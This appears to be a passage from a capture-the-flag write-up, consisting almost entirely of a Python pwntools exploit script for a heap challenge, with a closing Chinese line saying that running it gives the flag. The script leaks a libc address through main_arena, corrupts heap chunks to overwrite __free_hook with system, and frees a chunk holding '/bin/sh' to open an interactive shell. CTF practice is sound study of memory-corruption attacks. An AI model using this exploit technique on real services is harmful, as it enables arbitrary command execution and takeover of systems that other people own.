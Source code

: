 ```

def exp():
    for i in range(16):
        new(i, 0x10)

    for i in range(15):
        delete(i)

    leaveYourName(b'arttnba3')

    dump(7)
    main_arena = u64(p.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00')) - 336
    __malloc_hook = main_arena - 0x10
    libc_base = __malloc_hook - libc.sym['__malloc_hook']
    log.info("Libc addr:" + str(hex(libc_base)))

    for i in range(7):
        new(i, 0x10)
    new(7, 0x60)
    edit(7, p64(0) * 2 + p64(0x21) + p64(0) * 3 + p64(0x21) + p64(0) * 3 + p64(0x21))
    delete(10)
    delete(9)
    delete(8)
    edit(7, p64(0) * 2 + p64(0x21) + p64(libc_base + libc.sym['__free_hook'] - 8))

    new(10, 0x10)
    new(9, 0x10)
    edit(9, p64(libc_base + libc.sym['system']))

    edit(7, p64(0) * 2 + p64(0x21) + b"/bin/sh\x00")
    delete(8)
    p.interactive()

if __name__ == '__main__':
    exp() 
```

运行即得flag
